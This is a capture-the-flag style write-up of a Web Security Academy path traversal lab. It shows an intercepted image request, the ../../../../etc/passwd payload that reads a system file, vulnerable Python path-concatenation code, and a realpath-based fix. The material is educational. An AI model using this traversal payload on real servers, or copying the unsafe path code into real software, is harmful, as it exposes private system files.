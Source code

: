 
---

- **Target:** Path Traversal Lab - validation of start of path
- **Author:** sonyahack1
- **Date:** 05.05.2025

---

> The vulnerability contains in the display of product images
> i open any product card and open its image in new tab

![image](./screenshots/image.png)
![image_url](./screenshots/image_url.png)

## Intercepting card image request

> intercepting:

```html 

GET /image?filename=/var/www/images/56.jpg HTTP/1.1
Host: 0ae2008403efa174810c7ea700620009.web-security-academy.net
Cookie: session=EKufU2azefi5yozD*******************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae2008403efa174810c7ea700620009.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

```

> I need to extract the contents of the file **/etc/passwd** . I see that the value of the parameter **filename** is the full path to the image on the server.
> at the end of this path I use **../../../../etc/passwd** to go up a few levels and read the file **/etc/passwd**


```html

GET /image?filename=/var/www/images/../../../../etc/passwd HTTP/2

```

> The thing is that **Path Traversal** is a vulnerability in which we manipulate paths in the URL in order to force the server to read or execute
> any files that it should not. If the server does not have correct normalization or validation of user input at the software level
> then such characters as **../** at the software level will be perceived as part of the path in the value of the **filename** parameter and the server will process
> such a path. First, it will execute the first part and go through **/var/www/images** then go up several levels (as if returning to the beginning)
> and go to the **/etc** directory to read the final **passwd** file specified in the path.

> As a result, I get the contents of the **/etc/passwd** file


![passwd_file](./screenshots/passwd_file.png)

> In simple terms, this vulnerability exists due to poor interpretation of the full path for the parameter.
> it might look something like this:

```python

def get_file(request):
    filename = request.GET['filename']
    filepath = "/var/www/images/" + filename
    with open(filepath, 'rb') as f:
        return f.read()

```

> If I pass **../../../../etc/passwd** to the parameter value the server will simply add it to the end path **/var/www/images**
> The result is **/var/www/images/../../../../etc/passwd**.

> **Note:** for example, this can be fixed with the following code:

```python

from os.path import realpath, commonprefix

base_path = "/var/www/images/"
requested_path = realpath(base_path + filename)

if not requested_path.startswith(realpath(base_path)):
    raise Exception("Path Traversal detected!")

```

---

![solved_lab](./screenshots/solved_lab.png)
